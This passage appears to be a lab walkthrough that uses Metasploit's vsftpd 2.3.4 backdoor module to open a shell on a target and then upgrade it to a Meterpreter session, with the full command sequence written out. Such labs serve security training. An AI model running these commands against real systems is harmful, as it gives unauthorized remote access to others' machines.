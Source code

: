  * search for any payload you intend to use, (vsftpd) in this context >> `search vsftpd`

 * Few options will display, select which suites you best >> `use exploit/unix/ftp/vsftpd_234_backdoor`
  
 * Set necessary parameters, input `show options` >> `set RHOSTS "target IP"` >> `set payload cmd/unix/interact` >> `exploit`

 **As seen below, we already have 1 *SHELL SESSION* opened;**


 <img src="Screenshot from 2025-01-27 07-07-36.png" alt="alt text" width="750"><br><br><br>

 **Now, let's upgrade it to 2 sessions, *1 SHELL & 1 METERPRETER;***

 * see list of active session >> `sessions -l`
  
 * upgrade from *Shell to Meterpreter* >> `sessions -u 1`

 * open *Meterpreter* session >> `sessions -i 2`

 <img src="Screenshot from 2025-01-27 07-28-04.png" alt="alt text" width="750"><br><br><br>
 